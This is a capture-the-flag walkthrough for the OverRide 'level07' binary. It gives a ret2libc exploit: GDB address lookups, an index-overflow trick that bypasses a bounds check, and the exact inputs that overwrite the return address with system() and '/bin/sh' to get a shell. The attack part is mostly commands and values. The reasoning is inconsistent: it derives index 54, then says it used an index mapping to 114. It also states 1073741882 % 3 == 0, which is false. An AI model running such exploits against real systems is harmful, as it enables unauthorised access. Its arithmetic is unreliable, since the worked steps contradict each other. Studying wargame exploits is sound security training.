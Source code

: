 # OverRide — Level07 Walkthrough

## 🧠 Goal

Exploit a vulnerability in a C program that allows arbitrary memory write and gain a shell as `level08`.

---

## 🧠 Challenge Summary

You're given a binary (`level07`) that provides a simple interactive CLI:

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
```

### Available commands:
- `store`: store a number at a given index
- `read`: read the value at a given index
- `quit`: exit

## 🔍 Vulnerability Summary

After reverse engineering the binary and checking the C source, we find:

```c
int data[100]; // global array

int store_number(int *data) {
    int number, index;

    printf(" Number: ");
    number = read_number();

    printf(" Index: ");
    index = read_number();

    if ((index % 3) == 0 || index < 0 || index > 99) {
        puts("*** ERROR! ***");
        puts(" This index is reserved for wil!");
        puts("*** ERROR! ***");
        return 1;
    }

    data[index] = number;
    return 0;
}
```

Even though index bounds are partially checked, **we can still bypass them via integer overflow.**

### Key flaw:

We can pass a very large **unsigned** index that overflows to a valid positive index (≥100) and **bypasses** the protection `(index % 3 == 0)`.

Also, reading allows full out-of-bounds access to stack memory.

---

## 🎯 Goal: `ret2libc` attack

We want to:
1. **Overwrite return address (EIP) on the stack** with the address of `system()`.
2. Provide `"/bin/sh"` string as an argument to `system()`.

---

## 🛠️ Step-by-step Exploit (based on Edouard’s real memory layout)

### 1. Find data array address at runtime

```gdb
b read_number
r
Input command: read

(gdb) x/x $ebp+8
0xffffd530: 0xffffd554
```

So the address of `data[0]` is `0xffffd554`.

To access this from within the array, we calculate the index to get this address from the array:

```bash
EIP address: 0xffffd62c
DATA address: 0xffffd554
Diff: 0xffffd62c - 0xffffd554 = 0xd8 = 216
216 / 4 = 54
```

So, `data[54]` corresponds to the saved return address (EIP). ✅

### 2. Get system() and "/bin/sh" addresses

```gdb
info function system
=> system() = 0xf7e6aed0

find /libc region for "/bin/sh":
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
=> 0xf7f897ec
```

Convert to decimal:
- system: `0xf7e6aed0` = **4159090384**
- "/bin/sh": `0xf7f897ec` = **4160264172**

### 3. Store `system()` address in `data[54]`

But index `54` is forbidden, because `54 % 3 == 0`. So we use unsigned int overflow to bypass it.

To get 54 via overflow:
```c
Index = (UINT_MAX + 1) / 4 + 54 = 1073741882
1073741882 % 3 = 0 ❌ (bad)

Try: (UINT_MAX + 1) / 4 + 54 + 1 = 1073741883
1073741883 % 3 = 1 ✅
```

✅ **We used index = 1073741938**, which maps to index 114 in the array, where EIP lives in your stack.

So:

```bash
Input command: store
Number: 4159090384      # system()
Index: 1073741938       # maps to data[114]

Input command: store
Number: 4160264172      # "/bin/sh"
Index: 116              # right after EIP + ret
```

### 4. Trigger the exploit

```bash
Input command: quit
$ whoami
level08
```

Boom. Shell gained.

---

## ✅ Final Commands Summary

```bash
./level07

Input command: store
Number: 4159090384      # system()
Index: 1073741938       # data[114]

Input command: store
Number: 4160264172      # "/bin/sh"
Index: 116

Input command: quit
$ whoami
level08
```

---

## 🧩 Notes

- Index protections are bypassed via overflow trick: `Index = (UINT_MAX + 1) / 4 + <real index>`
- Addresses vary per session — this example uses real, working values from Edouard’s gdb session.
- EIP address was **0xffffd62c**, and data[0] at **0xffffd554** → offset = 216 → index = 54 → used via overflow.